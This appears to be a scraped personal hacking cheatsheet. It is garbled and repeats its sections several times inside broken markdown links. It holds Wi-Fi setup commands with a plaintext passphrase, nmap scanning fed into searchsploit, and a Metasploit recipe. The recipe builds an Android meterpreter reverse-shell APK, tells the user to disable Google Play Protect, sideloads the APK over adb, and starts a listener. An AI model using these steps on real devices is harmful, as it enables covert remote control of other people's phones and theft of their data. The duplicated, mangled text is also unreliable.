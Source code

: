 [[https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

# Wifi Cheatsheet

sudo iwlist wlan0 scan

wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf

sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf

sudo dhclient wlan0 -r
  
Other:
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe rtl8187 ps_enable=1   
  
 - Run changes on boot   
 echo 'options ath9k ps_enable=1' >> /etc/modprobe.d/rtl8187.conf  
](https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

## Network Analysis  
nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
   
## MSF EZ Cheatsheet  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  

## Wi-Fi Cheatsheet

sudo iwlist wlan0 scan
wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf
sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf
sudo dhclient wlan0 -r
MAC: cat /sys/class/net/wlan0/address  

Other:  
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe -r rtl8187  
 sudo modprobe rtl8187 ps_enable=1  
  
 - Run changes on boot  
 sudo echo 'options rtl8187 ps_enable=1' >> /etc/modprobe.d/rtl8187.conf  


ERROR  
nl80211: kernel reports: Match already configured  
)
](https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

## Network Analysis  
nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
   
## MSF EZ Cheatsheet  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  

## Wi-Fi Cheatsheet

sudo iwlist wlan0 scan
wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf
sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf
sudo dhclient wlan0 -r
MAC: cat /sys/class/net/wlan0/address  

Other:  
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe -r rtl8187  
 sudo modprobe rtl8187 ps_enable=1  
  
 - Run changes on boot  
 sudo echo 'options rtl8187 ps_enable=1' >> /etc/modprobe.d/rtl8187.conf  


ERROR  
nl80211: kernel reports: Match already configured  
)
